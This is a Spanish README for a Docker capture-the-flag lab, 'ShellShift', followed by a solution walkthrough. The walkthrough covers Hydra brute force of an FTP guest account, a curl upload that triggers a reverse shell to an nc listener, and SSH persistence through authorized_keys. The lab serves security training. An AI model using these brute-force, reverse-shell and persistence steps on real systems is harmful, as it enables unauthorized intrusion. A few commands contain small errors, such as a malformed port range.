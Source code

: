 
# ShellShift

- [1. Instalación y despliegue](#1.-instalación-y-despliegue)
- [1.1. Despliegue de contenedor automático](#1.1.-despliegue-de-contenedor-automático)
- [1.2. Despliegue de contenedor manual](#1.2.-despliegue-de-contenedor-manual)
- [2. Descripción de ejercicio](#2.-descripción-de-ejercicio)
- [3. Solución de ejercicio](#3.-solución-de-ejercicio)
- [3.1. Identificación de servicio FTP](#3.1.-identificación-de-servicio-ftp)
- [3.2. Crackeo de credenciales FTP](#3.2.-crackeo-de-credenciales-ftp)
- [3.3. Suplantación de identidad](#3.3.-suplantación-de-identidad)
- [3.4. Reverse Shell](#3.4.-reverse-shell)
- [3.5. Conexiones perdurables](#3.5.-conexiones-perdurables)
- [3.6. Recuperación de credenciales](#3.6.-recuperación-de-credenciales)

## 1. Instalación y despligue

Para desplegar el laboratorio es necesario tener [Docker](http://docs.docker.com/get-docker/) instalado. Una vez instalado podremos descargar o construir la imagen.

### 1.1. Despliegue de contenedor automático

Para desplegar el contenedor automáticamente, bastará con ejecutar el siguiente comando:

```bash
docker exec -d --name shellshift-container -p [Host-Port1]:21 -p [Host-Port2]:22 -p [Host-Port-range]:40000-40010 kradbyte/shellshift:latest
```

Asegúrate de reemplazar `Host-Port1`, `Host-Port2` y `Host-Port-range` con tus puertos para los servicios FTP, SSH y FTP Passive, respectivamente, en caso de querer utilizar puertos personalizados.

### 1.2. Despliegue de contenedor manual

Para desplegar el contenedor manualmente primero deberemos clonar el repositorio y construir la imagen:

```bash
git clone https://github.com/kradbyte/elementals-labs.git
docker build -t kradbyte/shellshift:latest elementals-labs/3-ShellShift
```

Una vez tengamos la imagen construida podremos desplegar el contenedor:

```bash
docker run -d --name shellshift-container -p [Host-port1]:21 -p [Host-port2]:22 -p[Host-port-range]:400000-40010 kradbyte/shellshift:latest
```

Asegúrate de reemplazar `Host-Port1`, `Host-Port2` y `Host-Port-range` con tus puertos para los servicios FTP, SSH y FTP Passive, respectivamente, en caso de querer utilizar puertos personalizados.

# 2. Descripción de ejercicio

*Contexto:* Te encuentras en una encrucijada en tu puesto de trabajo en el departamento de Atención al Cliente de una empresa reconocida. Hace una semana, desafortunadamente perdiste un archivo crucial que contenía tanto una llave de acceso como el enlace a una reunión empresarial importante programada para la próxima semana. La política interna de la empresa es implacable con los errores, y temes que admitir tu descuido pueda costarte el puesto. Afortunadamente, has descubierto que las credenciales perdidas están almacenadas en el servidor de la empresa. No tienes contactos en el departamento de TI, pero el destino te ha sonreído al encontrar un correo electrónico desechado que podría ser tu salvación:

> Good morning, Pato. I will be glad to assist you with your request. Please, provide your IP address by uploading it to the "ips" folder, naming the file "PatoIP.txt". Remember to connect as a "guest" user. Best regards.

*Target:* Recupera el archivo perdido siguiendo las pistas proporcionadas. Este viaje te llevará a interactuar con un servicio FTP, donde deberás compartir tu IP y puerto para obtener acceso a la consola del servidor. 

*Steps:*
1. Identificar servicio FTP
2. Acceder al servicio FTP
3. Compartir IP y puerto de escucha
4. Esperar conexión al servidor
4. Buscar archivo perdido: El archivo que necesitas recuperar tiene una extensión “.sh” y un tamaño de 15 KB.

*Grants:*
1. IP de Windows vs. WSL: Ten en cuenta que las direcciones IP pueden variar entre Windows y WSL. Asegúrate de proporcionar la IP correcta para evitar complicaciones.
2. Para facilitar tu trabajo y evitar tener que repetir pasos, considera establecer algún método para ganar un acceso más estable.
3. Todos los servicios corren entre los puertos 2100-2300.

*Tools:*
FTP, Curl, NetCat, Hydra, Nmap, SSH

# 3. Solución de ejercicio

## 3.1. Identificación de servicio FTP

Si se configuraron los puertos para que el servicio FTP corriera por un puerto distinto al 21, se debe utilizar alguna herramienta de escaneo, como Nmap, para descubrir dicho servicio.

```bash
nmap -sn 192.168.0.0/24
```

## 3.2. Crackeo de credenciales FTP

Una vez hayamos ubicado el servicio FTP, el correo que se menciona en la descripción del ejercicio nos menciona que podemos subir un archivo al sevidor, pero primero deberemos descubrir la contraseña. Para eso podemos utilizar herramientas como *[Hydra](https://www.kali.org/tools/hydra/)* que nos ayudarán a descubrir las credenciales. Si prestamos atención al correo sabremos que el usuario del servicio es **guest**, por lo que solo deberemos descubrir la contraseña. Podemos utilizar algún diccionario de [SecList](https://github.com/danielmiessler/SecLists/blob/master/Passwords/500-worst-passwords.txt).

```bash
hydra -l guest -P /ruta/a/tu/diccionario.txt ftp://ServerIP:ServerPort
```

No olvides reemplazar `ServerIP` y `ServerPort` con la IP y el puerto del servidor por donde corre el servicio de FTP, así como la ruta de tu diccionario.

## 3.3. Suplantación de identidad

Una vez hayamos obtenido las credenciales del servicio FTP deberemos enviar nuestra IP y nuestro puerto de escucha, para que el servidor nos envíe una consola interactiva como si fuésemos Pato. Podemos utilizar FTP o curl para enviar el archivo:

```bash
curl -T <(echo "ClientIP:ClientPort") ftp://UserServer:PassServer@ServerIP:ServerPort/ips/PatoIP.txt
```

No olvides reemplazar `ClientIP` y `ClientPort` por la IP y el puerto de Host, así como `UserServer` y `PassServer` por la IP y el puerto del Servidor.

## 3.4. Reverse Shell

Cuando hayamos enviado nuestra IP al servidor deberemos ponernos en escucha para recibir la consola interactiva. Para ello podemos utilizar alguna herramienta como NetCat.

```bash
nc -lnvp 4444
```

## 3.5. Conexiones perdurables

Cuando el servidor nos entregue la consola interactiva podremos buscar la flag del laboratorio, pero la conexión que tenemos actualmente no será perdurable ya que cada dos minutos perderemos la conexión y deberemos repetir el proceso de enviar nuestra IP al servidor para conectarnos nuevamente, por lo que deberemos buscar una conexión persistente para evitar este inconveniente. Para ello utilizaremos SSH.

```bash
ssh-keygen -t rsa -b 4096 -f myKey -N ""
```

No olvides reemplazar `myKey` por el nombre que quieras utilizar para tu llave o el directorio donde se guardarán.
Una vez hayamos creado nuestras llaves pública y privada, deberemos copiar la llave pública, con extención `.pub` al archivo de llaves autorizadas `authorized_keys` del directorio `.ssh`, dentro del directorio de nuestro usuario en el servidor. Una vez copiada esta llave podremos conectarnos con nuestra llave privada que generamos anteriormente. No olvides cambiar los permisos del archivo de tu llave con el permiso 600.

```bash
ssh -p [ServerPort] -i [YourKey] [UserName]@ServerIP
```

No olvides reemplazar `ServerPort` y `ServerIP` por la IP del servidor y el puerto por el configuraste que corriera SSH, así como reemplazar `YourKey` por el nombre que tenga tu llave privada dentro de tu host y `UserName` por el nombre de usuario al que te conectarás (para este caso era _guest_).

## 3.6. Recuperación de credenciales

Una vez hayamos establecido la conexión por SSH bastará con buscar y obtener las credenciales.

```bash
./tmp/meet.sh.x
```

> **Nota:** Las credenciales están en un archivo ejecutable
